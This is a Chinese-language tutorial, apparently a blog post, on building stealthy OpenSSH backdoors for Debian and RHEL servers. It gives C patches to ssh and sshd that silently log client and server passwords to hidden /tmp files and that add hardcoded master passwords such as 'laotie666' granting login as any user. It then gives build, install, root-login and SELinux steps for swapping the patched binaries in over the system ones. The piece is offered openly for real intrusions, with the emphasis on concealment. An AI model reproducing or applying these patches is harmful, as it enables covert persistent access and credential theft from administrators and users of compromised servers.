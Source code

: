 # OpenSSH后门制作

网上关于OpenSSH的后门都是抄来抄去，普遍都是对某个早期版本的OpenSSH打patch进行的，这样的后门使用起来就是自己骗自己，隐蔽性不强，兼容度也极低。因此，花了一段时间研究怎么手工制作OpenSSH后门，这样的后门定制度高，与服务器上OpenSSH版本一致，隐蔽性也较强。

本教程主要记录怎么制作硬编码口令后门及密钥窃听后门，实际上使用OpenSSH源码编译后门能做的还有很多，如硬编码免密后门、命令执行、攻击痕迹清理等。

## Debian系-OpenSSH后门

### 确定版本

```shell
dpkg -S /usr/sbin/sshd
dpkg -l openssh-server
## apt-get download openssh-server=1:8.4p1-5
```

### 下载源码

```shell
# 这是Debian版的下载地址。
https://tracker.debian.org/pkg/openssh
https://salsa.debian.org/ssh-team/openssh/-/archive/debian/1%258.4p1-5/openssh-debian-1%258.4p1-5.zip
# 这是Ubuntu版的下载地址。
https://launchpad.net/ubuntu/+source/openssh
https://launchpad.net/ubuntu/+source/openssh/1:8.4p1-5ubuntu1
```

### 添加后门代码

下面给出发现的一些可利用的位置，实战中使用基本足矣。

```shell
[ssh]
readpass.c     ... read_passphrase
sshconnect2.c  ... userauth_passwd

[sshd]
monitor.c      ... mm_answer_authpassword
auth-passwd.c  ... auth_password
auth-pam.c     ... sshpam_auth_passwd   //大多数ssh都默认使用pam进行认证
```

具体的添加步骤，这里给出几个简单例子。

#### 偷密码

```c
// sshconnect2.c:userauth_passwd      ssh（偷连向其他服务器的密码）
FILE *fp = NULL;
fp = fopen("/tmp/.ssh-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{\"%s@%s\":\"%s\"} (%s:%s)\n",authctxt->server_user,authctxt->host,password,authctxt->local_user,authctxt->service);
fclose(fp);

// auth-passwd.c:auth_password        sshd（记录本机接收到的密码）
// 如果添加在具体的认证函数之前可获得所有登录尝试下的密码，用于口令分析
// 如果添加在认证通过后就是专门用于偷口令的OpenSSH口令窃取后门
FILE *fp = NULL;
fp = fopen("/tmp/.sshd-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{%s:%s}\n",authctxt->user,password);
fclose(fp);
```

#### 万能口令

使用硬编码的万能口令能登录任意用户。

```c
// auth-passwd.c:auth_password        sshd
if (!strcmp(password, "testme12#$")) return 1;

// monitor.c:mm_answer_authpassword   sshd
原来代码如下：authenticated = options.password_authentication && auth_password(ssh, passwd);
改为：authenticated = options.password_authentication && auth_password(ssh, passwd) || strcmp(passwd, "laotie666")==0;
```

### 编译安装

```shell

apt-get install libpam0g-dev libselinux1-dev

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/var/lib/sshd/ ; make && make install  
# 实际上源码编译并安装后会发现ssh和sshd都替换掉了。因为我们的源码包是openssh的，不单纯是openssh-server
```

### 效果

下图中可以看到Debian上使用带窃听功能的ssh后门尝试登录服务器时，记录到的密码。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_173536.jpg)

下图是其他设备尝试以万能口令登录Debian服务器的效果。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175822.jpg)

Debian服务器上带窃听后门代码的sshd上也可以看到输入的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175916.jpg)

## RHEL系-OpenSSH后门

### 确定版本

```shell
rpm -qf /usr/sbin/sshd
```

### 下载源码

```shell
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz.asc
```

### 添加后门代码

参考上面Debian系的添加方法，都是一样的。

### 编译安装

**step1** 源码编译

```shell
yum -y install pam-devel libselinux-devel zlib zlib-devel openssl-devel openssl-libs make gcc
wget http://vault.centos.org/8.4.2105/BaseOS/Source/SPackages/openssh-8.0p1-6.el8_4.2.src.rpm
rpm -i openssh-8.0p1-6.el8_4.2.src.rpm
cd ~/rpmbuild
# 编译选项可查看./contrib/redhat/openssh.spec
clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh /etc/ssh ;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 

# step2 编写service文件

# step 3
#解决SELinux的安全检查问题。
restorecon -rv /usr/sbin/
```

**step2** 编写sshd.service文件

```shell
cat /etc/systemd/system/sshd.service <<EOF
[Unit]
Description=OpenSSH server daemon
After=network.target

[Service]
Type=simple
User=root
Restart=on-failure
RestartSec=5s
ExecStart=/usr/sbin/sshd -f /etc/ssh/sshd_config
KillMode=process

[Install]
WantedBy=multi-user.target
EOF
```

**step3** 编辑sshd_config配置文件，允许root登录

```shell
sed -i '/^PermitRootLogin/ s/no/yes/' /etc/ssh/sshd_config
```

**step4** 解决SELinux安全检查问题

```shell
restorecon -rv /usr/sbin/
```

**step5** 启动sshd.service

```shell
systemctl enable sshd.service
systemctl start sshd.service
```

### 效果

下图时CentOS服务器带窃听功能的ssh及sshd捕获到的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_153441.jpg)


